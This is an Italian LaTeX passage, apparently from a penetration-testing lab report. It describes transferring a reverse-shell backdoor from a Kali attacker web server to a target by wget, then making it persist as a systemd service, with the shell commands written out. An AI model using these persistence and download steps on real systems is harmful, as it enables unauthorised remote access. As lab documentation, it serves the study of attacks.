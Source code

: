 \subsection{Trasferimento della \emph{backdoor} sulla macchina target}
L'eseguibile della \emph{reverse shell} ed il relativo \emph{script} che si occupa di richiamarla sono stati creati sulla macchina \emph{Kali} e successivamente trasferiti sulla macchina target sfruttando il \emph{Web Server} di \emph{Kali} ed il comando \emph{wget} della macchina target. In particolare, sulla macchina \emph{Kali}, i file \emph{`shell.elf'} e \emph{`in.sh'} sono stati inseriti nella directory \emph{`/var/www/html'} e successivamente è stato avviato il \emph{Web Server `apache2'} mediante il comando:
\begin{lstlisting}[language=bash] 
    $ sudo systemctl start apache2
\end{lstlisting}
D'altro canto, sulla macchina target è stato effettuato l'accesso come utente \emph{root} e sono stati prelevati i \emph{file} mediante una connessione al \emph{Web Server} di \emph{Kali} sfruttando i comandi:
\begin{lstlisting}[language=bash] 
    $ wget http://10.0.2.15/shell.elf
    $ wget http://10.0.2.15/in.sh
\end{lstlisting}
I file prelevati sono stati spostati nella \emph{directory `/etc/init.d'} e gli sono stati forniti i permessi di esecuzione mediante i comandi:
\begin{lstlisting}[language=bash] 
    $ chmod +x /etc/init.d/shell.elf
    $ chmod +x /etc/init.d/in.sh
\end{lstlisting}

\subsection{Attivazione della \emph{backdoor} come processo da eseguire all'avvio}
Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è necessario impostare il file \emph{in.sh} come servizio da eseguire all'avvio. A tale scopo è stato creato il file \emph{`/lib/systemd/system/shellscript.service'}, che funge da descrittore per il servizio da creare, avente il contenuto riportato nella figura \ref{fig:service}. 
Sono, infine, stati lanciati i seguenti comandi, al fine di abilitare ed eseguire il servizio appena definito:
\begin{lstlisting}[language=bash] 
    $ systemctl daemon-reload
    $ systemctl enable shellscript.service
    $ systemctl start shellscript.service
\end{lstlisting}
\begin{figure}[h]
    \centering
    \includegraphics[scale=1]{capitoli/images/service.png}
    \caption{Descrittore del servizio relativo alla backdoor}
    \label{fig:service}
\end{figure}
